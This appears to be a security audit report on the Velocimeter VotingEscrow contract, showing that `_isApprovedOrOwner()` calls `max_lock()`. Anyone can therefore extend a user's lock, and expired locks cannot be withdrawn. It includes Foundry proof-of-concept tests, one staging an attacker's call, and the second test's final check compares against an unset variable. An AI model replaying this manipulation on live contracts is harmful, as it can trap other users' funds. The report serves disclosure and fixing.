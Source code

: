 Proper Pineapple Hippo

High

# Incorrect Logic in _isApprovedOrOwner() Function Leads to Unintended Lock Extension, Allows Lock Manipulation and Prevents Expired Lock Withdrawals

## Summary
Incorrect logic in the `_isApprovedOrOwner()` function leads to multiple unwanted scenarios where the lock time for certain users is increased any time the function is called. In some cases, it prevents users whose locks have expired from withdrawing their locked tokens. This is due to the `max_lock()` function being called in `_isApprovedOrOwner()`.

## Vulnerability Detail
```solidity
function _isApprovedOrOwner(
        address _spender,
        uint _tokenId
    ) internal returns (bool) {
        max_lock(_tokenId); //@audit - this locks the token anytime the function is called
```
From the snippet above, the function first makes a call to `max_lock()` every time it is called. The `max_lock()` function on the other hand, sets the unlock time for a given tokenID to the max lock time (i.e 52 weeks or a year). This, however, only succeeds if the tokenID owner has enabled max lock for the tokenID (i. e `maxLockIdToIndex != 0`)  and the protocol has `max_lock_enabled` set to `true` (This is enabled by default). This is seen in the snippet below
```solidity

 bool public max_lock_enabled = true;

 ///@notice Extend the unlock time to max_lock_time for `_tokenId`
    function max_lock(uint _tokenId) public {
        if (maxLockIdToIndex[_tokenId] != 0 && max_lock_enabled) {
            LockedBalance memory _locked = locked[_tokenId];
            uint unlock_time = ((block.timestamp + MAXTIME) / WEEK) * WEEK; // Locktime is rounded down to weeks


 }
```

As `max_lock_enabled` is by default set to `true`, until it is disabled by the protocol, the issues highlighted here work with the assumption that `max_lock_enabled` is `true`. The issues start when a user who has enabled max lock on their tokenID performs any action which calls `_isApprovedOrOwner()` as the unlock time for that tokenID will always be refreshed to a year later. 
The following are some functions impacted by this vulnerability and it's effects:
- `withdraw()` : Unable to withdraw locked tokens due to `require(_locked.end > block.timestamp, "Lock expired");` being triggered in `max_lock()` for expired locked tokens
- `increase_amount()` : modifies the unlock time any time a maxlocked user wishes to increase their token balance which goes against the function comment below
```solidity
    /// @notice Deposit `_value` additional tokens for `_tokenId` without modifying the unlock time
```
- `disable_max_lock()`: Further extends the unlock time before disabling Max Lock
- `isApprovedOrOwner()`: external function that allows anyone to extend the lock time of the tokenID they input if the tokenID has maxLockEnabled.

The POC below shows some scenarios where this vulnerability is exploited or causes a DOS.
1. Unable to withdraw 
```solidity
    function testWithdrawExpiredMaxLockedTokens() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        // Balance should be zero before and 1 after creating the lock
        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        assertEq(escrow.currentTokenId(), 1);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);

        //variables to log the locked amount and time
        int amount;
        uint lockTime;

        //enable max lock and set unlock to max lock time for tokenID 1
        escrow.enable_max_lock(1);
        escrow.max_lock(1);

        (amount, lockTime) = escrow.locked(1);
        //verify that the lock time is now 52 weeks
        assertEq(lockTime, 52 weeks);
        console.log("Original Unlock Time:", lockTime);

        //move forward in time 1 year
        vm.warp(block.timestamp + 52 weeks);
        //verify that lock has expired i.e block.timestamp > lockTime
        assertGt(block.timestamp, lockTime);

        // try to withdraw the locked tokens
        vm.expectRevert("Lock expired");
        escrow.withdraw(1);

        //try to disable max lock
        vm.expectRevert("Lock expired");
        escrow.disable_max_lock(1);

        // try to withdraw the locked tokens again
        vm.expectRevert("Lock expired");
        escrow.withdraw(1);
    }
```
[Logs]
```solidity
[PASS] testWithdrawExpiredMaxLockedTokens() (gas: 746854)
```
2. Maliciously increasing the unlock time
```solidity
function testIncreaseUnlockTimeMaliciously() public {
        address Attacker = vm.addr(6);
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        // Balance should be zero before and 1 after creating the lock
        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        assertEq(escrow.currentTokenId(), 1);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);

        //variables to log the locked amount and time
        int amount;
        uint lockTime;
        uint oldLockTime;

        //enable max lock and set unlock to max lock time for tokenID 1
        escrow.enable_max_lock(1);
        escrow.max_lock(1);

        (amount, lockTime) = escrow.locked(1);
        //verify that the lock time is now 52 weeks
        assertEq(lockTime, 52 weeks);
        console.log("Original Unlock Time:", lockTime);

        //move forward in time 1 month
        vm.warp(block.timestamp + 2 weeks);
        //verify that lock is still active i.e block.timestamp < lockTime
        assertLt(block.timestamp, lockTime);

        vm.prank(Attacker);
        //make a malicious call to increase the unlock time
        escrow.isApprovedOrOwner(address(owner), 1);

        (amount, lockTime) = escrow.locked(1);
        //verify that the lock time has been increased
        console.log("New unlock time is: ", lockTime);
        //verify that the lock time is greater than the old lock time after the attack
        assertGt(lockTime, oldLockTime);
    }
```
[Logs]
```solidity
Ran 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testIncreaseUnlockTimeMaliciously() (gas: 1026413)
Logs:
  Original Unlock Time: 31449600
  New unlock time is:  32659200
```

## Impact
As highlighted earlier, this vulnerability can lead to unintended lock extensions, lock manipulation by malicious actors and prevents withdrawals when the lock has expired.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L295-L296
## Tool used
Manual Review

## Recommendation
Remove `max_lock()` function in `_isApprovedOrOwner()`.